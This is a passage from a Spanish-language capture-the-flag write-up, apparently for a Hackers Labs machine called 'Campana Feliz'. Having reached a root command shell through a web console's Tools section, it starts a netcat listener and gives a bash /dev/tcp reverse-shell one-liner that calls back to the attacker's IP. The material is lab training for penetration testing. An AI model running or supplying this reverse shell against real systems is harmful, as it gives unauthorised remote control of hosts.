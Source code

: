Del lado izquierdo en la sección de **Tools**, veremos que podemos usar una **Shell de Comandos** o una **Terminal**:

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura18.png">
</p>

Probemos primero la **Shell de Comandos**:

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura19.png">
</p>

Funciona y nos indica que somos **Root**.

Entonces, vamos a mandarnos una **Reverse Shell** desde aquí.

Abre un listener con **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
```

Prueba la misma **Reverse Shell** que usamos anteriormente:
```bash
bash -c 'bash -i >& /dev/tcp/Tu_IP/1337 0>&1'
```

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura20.png">
</p>
